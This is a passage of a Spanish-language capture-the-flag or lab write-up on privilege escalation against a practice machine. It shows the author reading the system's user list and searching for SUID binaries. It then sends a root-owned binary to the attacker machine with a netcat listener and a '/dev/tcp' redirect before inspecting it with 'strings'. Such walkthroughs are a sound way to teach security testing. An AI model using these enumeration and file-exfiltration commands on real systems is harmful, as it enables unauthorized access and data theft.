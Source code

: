 **Hallazgos Clave:**
Revisando los usarios del sistema, al parecer solo tenemos dos
```bash
root:x:0:0:root:/root:/bin/bash
bob:x:1000:1000::/home/bob:/bin/bash
```

### Explotacion de Privilegios

###### Usuario `[ bob ]`:
Listando binarios con privilegios **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Tenemos el siguiente:
```bash
/opt/command_exec
```

Y revisando sus permisos detectamos que es **SUID** y que pertenece a **root**
```bash
-rwsr-xr-x 1 root root 16328 Dec 19 10:22 /opt/command_exec
```

Ahora nos aprovechamos de este para ejecutarlo y ganar una bash como **root**
Al intentar ejecutarlo nos pide una contrasena:
```bash
/opt/command_exec
```

Nos trasladaremos este binario a nuestra maquina de atacante para realizar pruebas:
Primero nos ponemos en escucha desde nuestra maquina atacante:
```bash
nc -nlvp 443 > command_exec
```

Ahora desde la maquina victima nos enviaremos el binario:
```bash
cat command_exec > /dev/tcp/172.17.0.1/443
```

Ahora teniendo el bianrio en nuestra maquina de atacante y sabiendo que necesitamos una contrasena empezaremos a realizar pruebas:
Vemos que es un bianrio ejecutable:
```bash
file command_exec
command_exec: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dd01c803bbdd48675e24dc6e347b219ab5ccc771, for GNU/Linux 3.2.0, not stripped
```

realizamos el comandos: **( strings )** para ver las lineas legibles del binario y entre ellas tenemos:
```bash
strings command_exec
```
